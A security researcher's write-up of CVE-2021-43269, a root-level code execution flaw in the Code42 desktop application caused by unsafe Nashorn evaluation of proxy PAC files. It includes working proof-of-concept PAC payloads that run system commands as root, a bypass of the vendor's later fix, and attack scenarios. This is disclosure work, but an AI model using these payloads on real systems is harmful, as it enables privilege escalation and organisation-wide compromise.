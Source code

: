 ```yaml
---
title: CVE-2021-43269
date: 2021-08-30 # HH:MM:SS +/-TTTT
# categories: [CVE, Research, Bug Bounty]
# tags: [TAG]     # TAG names should always be lowercase
---
```


## Introduction
Recently I've had an opportunity to spend some time testing something different than I'm used to - a desktop application. The desktop application I picked was interesting to me because of two reasons: 
- It was written in Java, so I could've easily decompiled it to readable code
- Some of its functions were run with root privileges on the local system

I thought, if I could find a bug that allowed me to run code, it would run with root permissions, which would lead to a significant impact. 
During the testing, I learned a lot and found multiple interesting issues. In this post, I want to present my root-level remote code execution (RCE) finding which was assigned CVE-2021-43269 ID, and the steps I took to find it.

## Application description
Code42 is a company that offers a product to protect companies from ransomware and insider data exfiltration attacks. Its main product uses a desktop application run on every computer in the organization. The application connects to either an on-premise server, or a server in the cloud, and performs scheduled backups of important files, scans files for malicious content, and inspects the computer for data exfiltration, like sending sensitive files to a flash drive.

On a Linux system, the desktop application can be installed per user and then runs with given user permissions, or it can be installed system-wide, and run with root-level permissions. This solution is at the same time dangerous, but is understandable because otherwise it would be difficult for the main process to control sensitive system files and actions.

The company split the application into two separate parts - the main part, called Service, runs as root doing all the heavy work, and the UI part allows the user to change settings, or select which files he wants to back up. This solution implements a layer of protection because a low-privilege user cannot gain root privileges of the Service process without a bug inside it.

## Unpacking the application code
After installing the application, and reviewing its file structure I gained slight knowledge about what technologies it uses. I concluded that the main Service part is written in Java with a small binary wrapper, which is used to add arguments to the JAR file execution. The Client application is written in Electron, but apart from describing how I unpacked the `app.asar` file, I am not focusing on it in this post.

### Client application
To decompile the client part I've used the NPM tool called [asar](https://www.npmjs.com/package/asar). Its usage is very simple, all I had to do was to install it using NPM:
```bash
npm install -g asar
```

Use it to extract `app.asar` file from `electron/resources` directory under the installation folder:
```bash
asar extract /usr/local/crashplan/electron/resources/app.asar <extraction destination directory>
```

The `asar` application extracted bundled Electron application to the destination directory, and I could analyze its content. Unfortunately, the most important part of the application was minified, so it was not too easy to read it. Fortunately, some parts of the source code were readable. Thanks to that I have found an argument to enable debug options, which helped to see how the client application communicates with the Service process.

### Service application
To decompile the Service application written in Java, I used a tool called `jd-cli` and created a simple bash loop to decompile all libraries connected to the Code42 application. 
Firstly I've downloaded `jd-cli` from [GitHub](https://github.com/intoolswetrust/jd-cli), and built it using `maven`:
```bash
git clone https://github.com/intoolswetrust/jd-cli
cd jd-cli && mvn clean install
```

after successful build, I've written simple loop to unpack and decompile all interesting libraries:
```bash
mkdir classes sources
for f in /usr/local/crashplan/lib/*c*42*; do
	basename=$(basename $f)
	filename="${basename&.*}"
	
	mkdir ./classes/$filename && cd ./classes/$filename
	jar -xvf $f
	
	cd ../../
	java -jar <path to jd-cli.jar> -od ./sources/$filename ./classes/$filename
done
```
This script creates classes and sources directory, unpacks classes from the JAR file, and decompiles them into the `sources` directory.

After running this script I had all interesting libraries unpacked in a readable format ready to be analyzed using a code editor. It was now time to analyze how the system work.

## Code execution via Proxy PAC file
### Description
While exploring the functionalities of the application I spent some time playing with the proxy settings. My goal was to connect the Burp Suite proxy to the application and check what network traffic it generates. Proxy in Code42 application is configured using PAC files with necessary configuration settings put inside it. The file can be downloaded by the application from the external server or a local file located on the disk. I have looked on the internet for a sample PAC file to properly attach it to Burp, and as result created a file with the following content:

```javascript
function FindProxyForURL(url, host) 
{ 
	return "PROXY 127.0.0.1:8080"; 
}
```

For some reason (probably certificate issues) it did not work, and I did not receive any requests in Burp. I started to investigate the issue further, changed PAC file content, and checked application logs, and inside them, I’ve noticed an interesting error message saying:

```log
Error while executing PAC script:
ReferenceError: "aaa" is not defined in <eval> at line number 6
```

When I noticed the keyword `eval` it scratched the "it looks suspicious, let's break it!" part of my brain. I quickly started to search source code for the proxy file evaluation function, and I found that the application is using the Nashorn engine to parse and execute PAC file content as a Javascript code. A quick google search for vulnerabilities in the Nashorn engine pointed me to this article: [https://mbechler.github.io/2019/03/02/Beware-the-Nashorn/](https://mbechler.github.io/2019/03/02/Beware-the-Nashorn/). 

The article helped me to create a simple proof of concept file to execute arbitrary code on the root level:

```javascript
this.engine.factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec("touch /tmp/test.txt")'); 

function FindProxyForURL(url, host) 
{ 
	return "DIRECT"; 
}
```

This vulnerability uses an issue in the Nashorn engine default configuration, which according to the author of the article, Oracle says is intended behavior.
The above script, when loaded by the application and passed to the Nashorn engine got the global engine variable, created a fresh scripting engine with default, insecure configuration, and executed malicious Javascript code with access to the Java functions. In this example, it uses the Java Runtime method to execute system commands.

I changed the application configuration to use my exploit file as a proxy configuration and, after loading it, the `test.txt` file was created in the `/tmp` directory, which proved the Java code gets executed. The newly created file was owned by the `root` user, which indicated that the code was run with root-level permissions increasing the severity of this bug.

### Exploitation
This vulnerability could be used by both, local and external attackers. The local low-privileged user could use it to increase his privileges to root, and as result get full control of the system. For the external attacker, there are a few other exploitation possibilities:
- The attacker could obtain access to the online administration panel (by for example phishing attack), and change proxy settings in each computer in the organization, which would give him root-level code execution in the whole organization
- The attacker could social engineer the victim user to set proxy settings to an external link provided by the attacker. The link would point to the malicious proxy configuration file, and when downloaded and evaluated by the application, it would run malicious code as a root user
- If a company provided proxy configuration files in for example unprotected S3 bucket, a malicious attacker could overwrite its content, and get root code execution in all computers in the organization 

This issue was assigned P1 severity on Bugcrowd and was my very first P1 issue in the bug bounty world.

# Fix Bypass 
A few months after the issue was supposedly fixed by the company, I've tried to bypass the mitigation. The company attempted to fix the issue by removing the `engine` and `context` properties using the code below:
```javascript
Object.defineProperty(this, 'engine', {});Object.defineProperty(this, 'context', {});\n\n
```

Nashorn implements a `__noSuchProperty__` hook which code looks like the following:
```java
public static Object __noSuchProperty__(final Object self, final Object name) {
	final Global global = Global.instance();
	final ScriptContext sctxt = global.currentContext();
	final String nameStr = name.toString();

	[...]

	if ("context".equals(nameStr)) {
		return sctxt;
	} else if ("engine".equals(nameStr)) {
		// expose "engine" variable only when there is no security manager
		// or when no class filter is set.
		if (System.getSecurityManager() == null || global.getClassFilter() == null) {
			return global.engine;
		}
	}
	[...]
}
```

When the hook is called it would restore the `engine` or `context` original values overwriting the implemented protection. 

As a result, it was possible to bypass the fix using the following code:
```javascript
this.__noSuchProperty__("engine").factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec("touch /tmp/eval-test.txt")');

function FindProxyForURL(url, host)
{
        return "DIRECT";
}
```

